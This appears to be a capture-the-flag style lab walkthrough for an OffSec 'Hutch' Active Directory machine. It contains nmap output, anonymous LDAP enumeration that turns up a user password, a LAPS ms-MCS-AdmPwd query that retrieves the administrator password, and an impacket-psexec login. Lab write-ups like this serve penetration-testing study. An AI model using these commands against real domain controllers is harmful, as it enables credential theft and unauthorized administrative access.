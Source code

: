 # Network Enumeration

```bash
PORT      STATE SERVICE         
53/tcp    open  domain          
80/tcp    open  http            
88/tcp    open  kerberos-sec    
135/tcp   open  msrpc           
139/tcp   open  netbios-ssn     
389/tcp   open  ldap            
445/tcp   open  microsoft-ds    
464/tcp   open  kpasswd5        
593/tcp   open  http-rpc-epmap  
636/tcp   open  ldapssl         
3268/tcp  open  globalcatLDAP   
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman           
9389/tcp  open  adws            

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Date: Sat, 19 Aug 2023 13:33:16 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/10.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-19 13:32:34Z)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf       .NET Message Framing
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```



# Port enumeration

## Port 80

Just windows IIS welcome page.

<img src="../Images/image-20230819220655108.png" alt="image-20230819220655108" style="zoom:80%;" />

## Port 5985

<img src="../Images/image-20230819220727577.png" alt="image-20230819220727577" style="zoom:80%;" />

404 Not find.



## Port 53 domain, 389 ldap

Use `ldapsearch` to find if any information provided.

```bash
┌──(aaron㉿aaron)-[~/…/pg/huntch/kerbrute-master/dist]                                                                           
└─$ ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.196.122" "(objectclass=*)" 
```

<img src="../Images/image-20230819220849005.png" alt="image-20230819220849005" style="zoom:80%;" />

```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.196.122" "(objectclass=*)" 
```



<img src="../Images/image-20230819220938203.png" alt="image-20230819220938203" style="zoom:80%;" />

Get user `fmcsorley` password is CrabSharkJellyfish192. Test with `crackmapexec` if that's correct.

<img src="../Images/image-20230819221636626.png" alt="image-20230819221636626" style="zoom:80%;" />

Use the cred to test `ldapsearch` again

```bash
ldapsearch -v -c -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.196.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

Get the administrator password is `79ZwzC}0u66BOt`.

 [Refer](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)

<img src="../Images/image-20230819221848526.png" alt="image-20230819221848526" style="zoom:80%;" />

Then use administrator creds to login with `impacket-psexec`.

```bash
┌──(aaron㉿aaron)-[~/…/pg/huntch/kerbrute-master/dist]
└─$ impacket-psexec huttch.offsec/administrator:'79ZwzC}0u66BOt'@192.168.196.122
```

<img src="../Images/image-20230819223024041.png" alt="image-20230819223024041" style="zoom:80%;" />